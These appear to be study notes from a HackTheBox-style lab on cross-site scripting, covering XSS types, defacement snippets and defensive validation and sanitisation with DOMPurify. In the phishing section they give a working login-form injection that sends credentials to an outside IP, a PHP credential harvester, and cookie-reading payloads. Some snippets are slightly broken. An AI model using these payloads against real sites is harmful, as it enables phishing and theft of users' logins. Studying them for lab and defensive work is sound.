 
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#vulnerability-details
* https://github.com/payloadbox/xss-payload-list
* Payload
    * <script>alert(document.cookie)</script>
    * <script>print()</script>
# <span style=color:#44D62C>Stored <font size=2, color=gray> Persistent XSS</font></span>
* stored in the back-end -> persistent
# <span style=color:#44D62C>Reflected <font size=2, color=gray> Non-Persistent XSS</font></span>
* not persistent through page refreshes
## <span style=color:#53565A>defacing vs. phishing</span>
```javascript
//Background Color
<script>document.body.style.background = "#141d2b"</script>
```
```javascript
//Background
<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>
```
```javascript
//Page Title
<script>document.title = 'HackTheBox Academy'</script>
```
```javascript
//Page Text
document.getElementsByTagName('body')[0].innerHTML = "New Text"
```
# <span style=color:#44D62C>DOM <font size=2, color=gray> Non-Persistent XSS</font></span>
```html
<img src="" onerror=alert(document.cookie)>
```
* onerror事件 -> 載入圖片時發生錯誤則執行 JavaScript
    * https://www.runoob.com/jsref/event-onerror.html
* DOMPurify 
    * https://github.com/cure53/DOMPurify#dompurify
---

---
### <span style=color:red>From-End</span>
#### Input validation
```javascript
function validateEmail(email) {
    const re = /^(([^<>()[\]\\.,;:\s@\"]+(\.[^<>()[\]\\.,;:\s@\"]+)*)|(\".+\"))@((\[[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\])|(([a-zA-Z\-0-9]+\.)+[a-zA-Z]{2,}))$/;
    return re.test($("#login input[name=email]").val());
}
```
#### Input Sanitization
```javascript
<script type="text/javascript" src="dist/purify.min.js"></script>
let clean = DOMPurify.sanitize( dirty );
}
```
### <span style=color:red>Back-End</span>
#### Input validation
``
For a NodeJS back-end, we can use the same JavaScript code mentioned earlier for the front-end.
``
#### Input Sanitization
```javascript
import DOMPurify from 'dompurify';
var clean = DOMPurify.sanitize(dirty);
```
---
* Phishing
```html
'> can close the src=""
```
```javascript!
//Login Form Injection
'><h3>Please login to continue</h3><form action=http://10.10.15.237:1234><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>
```
## PHP Script to Sniffer
```javascript
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://10.129.2.255/phishing/index.php");
    fclose($file);
    exit();
}
?>
```
### Cleaning
```javascript
document.getElementById('urlform').remove();
```

```test!
'><script>document.write('<h3>Please login to continue</h3><form action=http://10.10.15.237:1234><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>;document.getElementById('urlform').remove();
)</script><!--
```
